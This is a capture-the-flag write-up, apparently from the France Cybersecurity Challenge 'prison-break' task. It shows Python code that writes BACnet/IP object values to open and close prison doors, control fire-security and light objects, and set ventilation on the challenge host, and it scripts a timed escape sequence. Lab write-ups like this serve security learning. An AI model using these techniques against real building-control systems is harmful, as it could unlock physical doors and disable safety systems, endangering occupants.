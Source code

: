 Now that we know the object ID for each door, light switch, ventilation system and fire security system, we can interact with those.

## Interact with the objects over BACnet/IP
Updating the status of an object means writing its `presentValue` to `active` (resp. `inactive`) to `open` it (resp. `close`), so I used the helper functions.

For instance, to open the `west main door`, we simply call `open('porte_ouest_principale')` and this
will trigger this `write operation` over Bacnet/IP: `141.94.246.228 binaryValue 35 presentValue active`, where `35` is the `object ID` for that door.

```python
target = socket.gethostbyname("prison-break.france-cybersecurity-challenge.fr")

### Check status / Open / Close these: doors, fire security, light
def close(n):
    print(f"close {n}")
    bacnet.write(f"{target} binaryValue {objids[n]} presentValue inactive")

def open(n):
    print(f"open {n}")
    bacnet.write(f"{target} binaryValue {objids[n]} presentValue active")

### Set value for ventilation
def ventilation(n, v):
    print(f"ventilation {n} {v}")
    bacnet.write(f"{target} analogValue {objids[n]} presentValue {v}")
```

## Strict timing
To strictly respect the timing, I also start at timer to schedule the next step at the given timing. In the code snippet below, `step2` function is scheduled to be called `15s` after the beginning of `step1`:

```python
def step1():
    print("[+] Step 1 (15s)")
    timer = Timer(15, step2)
    timer.start()
    # west ring => open all cells & main door
    for i in range(12):
        open(f"porte_ouest_{i+1}")
    open('porte_ouest_principale')
```

## Escape sequence
Here's the escape sequence:

```python
def step7():
    print("[+] Step 7")
    # control 2: open door
    # main entrance: open doors
    open('porte_garde_3')
    open('porte_garde_5')
    open('porte_garde_6')

def step6bis():
    print("[+] Step 6is")
    # SAS: close doors
    close('porte_garde_1')
    close('porte_garde_principale')

```